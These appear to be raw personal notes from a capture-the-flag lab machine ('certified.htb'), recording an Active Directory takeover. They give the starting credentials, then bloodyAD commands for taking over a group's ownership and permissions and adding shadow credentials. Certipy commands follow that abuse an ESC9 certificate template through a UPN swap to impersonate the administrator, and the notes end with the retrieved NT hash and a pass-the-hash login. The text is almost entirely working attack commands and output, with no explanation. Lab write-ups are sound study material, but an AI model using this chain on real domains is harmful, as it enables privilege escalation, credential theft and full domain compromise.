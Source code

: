 ___



Username: judith.mader Password: judith09



*this is an interesting acct here*
ca_operator



*this fucker has remote*
     "sAMAccountName": [
            "management_svc"
        ],
        "sAMAccountType": [
            805306368
        ],
        "servicePrincipalName": [
            "certified.htb/management_svc.DC01"
        ],


management has genericAll over ca_operator



*steps*


*set owner group*
./bin/python3 bloodyAD.py -u 'judith.mader' -p 'judith09' --dc-ip 10.10.11.41 -d certified.htb set owner Management judith.mader

*set genericAll perms*
./bin/python3 bloodyAD.py -u 'judith.mader' -p 'judith09' --dc-ip 10.10.11.41 -d certified.htb add genericAll Management judith.mader

*add myself to group*
./bin/python3 bloodyAD.py -u 'judith.mader' -p 'judith09' --dc-ip 10.10.11.41 -d certified.htb add groupMember Management judith.mader

*create cert creds*
./bin/python3 bloodyAD.py -u 'judith.mader' -p 'judith09' --dc-ip 10.10.11.41 -d certified.htb add shadowCredentials management_svc

*create cert creds for ca_operator*
KRB5CCNAME=../../apps/bloodyAD/management_svc_NA.ccache ./bin/python3 certipy/entry.py shadow auto -target 'DC01.certified.htb' -u 'management_svc@certified.htb' -k -account 'ca_operator' -dc-ip 10.10.11.41


*find vuln certs*
KRB5CCNAME=./ca_operator.ccache ./bin/python3 certipy/entry.py find -vuln -u 'ca_operator@certified.htb' -target 'DC01.certified.htb' -k -dc-ip 10.10.11.41
Certipy v5.0.3 - by Oliver Lyak (ly4k)



*there is a vulnerable certificate ESC9*


*changed upn of ca_operator to administrator for impersanation*
KRB5CCNAME=/home/ew/apps/bloodyAD/management_svc_NA.ccache ./bin/python3 certipy/entry.py account update -u 'management_svc@certified.htb' -target 'DC01.certified.htb' -k -user 'ca_operator' -upn 'administrator@certified.htb' -dc-ip 10.10.11.41


*request cert*
KRB5CCNAME=./ca_operator.ccache ./bin/python3 certipy/entry.py req -u 'ca_operator@certified.htb' -target 'DC01.certified.htb' -k -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41


*revert UPN to not break auth*
KRB5CCNAME=/home/ew/apps/bloodyAD/management_svc_NA.ccache ./bin/python3 certipy/entry.py account update -u 'management_svc@certified.htb' -target 'DC01.certified.htb' -k -user 'ca_operator' -upn 'ca_operator@certified.htb' -dc-ip 10.10.11.41 



*getting TGT with certificate*
./bin/python3 certipy/entry.py auth -pfx ca_operator.pfx -dc-ip '10.10.11.41'




# admin hash


└> ./bin/python3 certipy/entry.py auth -pfx administrator.pfx -dc-ip '10.10.11.41' 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certified.htb'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34





*check hash by authenticating to ldap*
nxc ldap 10.10.11.41 -u administrator -H b4b86f45c6018f1b664f70805f45d8f2 -d certified.htb